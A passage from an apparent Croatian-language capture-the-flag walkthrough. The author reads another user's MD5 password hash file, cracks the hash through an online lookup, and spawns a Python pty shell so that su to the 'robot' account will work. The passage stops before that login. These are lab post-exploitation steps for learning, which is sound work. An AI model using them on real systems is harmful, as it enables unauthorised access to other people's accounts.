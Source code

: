 Problem je u tome što mi uopće nismo `robot` korisnik na ovom sistemu. To provjeravamo naredbom `whoami`.

> ```shell
> $ whoami
> daemon
> ```

Jedina datoteka koju možemo vidjeti je `password.raw-md5`. Pogledajmo što je u ovoj datoteci.

> ```shell
> $ cat /home/robot/password.raw-md5
> robot:c3fcd3d76192e4007dfb496cca67e13b
> ```

### Dešifriranje MD5 hash-a

To je MD5 Hash. Hash je matematička funkcija koja se ne može vratiti nakon što obavi svoj posao. Ovo je dobro za pohranjivanje lozinki, ali MD5 je star algoritam i lako ga je probiti.

Prvo ćemo pogledati može li se ovaj hash provaliti online kako bismo uštedjeli vrijeme. [LINK](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b)

Kao što vidimo na gornjoj poveznici, može. **Zaporka** je `abcdefghijklmnopqrstuvwxyz`
   
Sada se moramo prijaviti kao `robot` korisnik. To radimo sljedećom naredbom:

> ```shell
> su - robot
> ```

Ali postoji problem: 

> ```shell
> $ su - robot
> su: must be run from a terminal
> ```

### Python shell

Ovo se može popraviti pomoću Pythona. Prvo moramo provjeriti je li Python uopće instaliran.

> ```shell
> $ which python
> /usr/bin/python
> ```

Napravimo shell s Pythonom. To možemo učiniti ovom naredbom:

> ```shell
> python -c 'import pty; pty.spawn("/bin/sh")'
> ```

Kao što vidite, terminal nije pokazao nikakve pogreške, što znači da smo uspješno kreirali shell u Pythonu.

Prijavimo se kao korisnik `robot`.
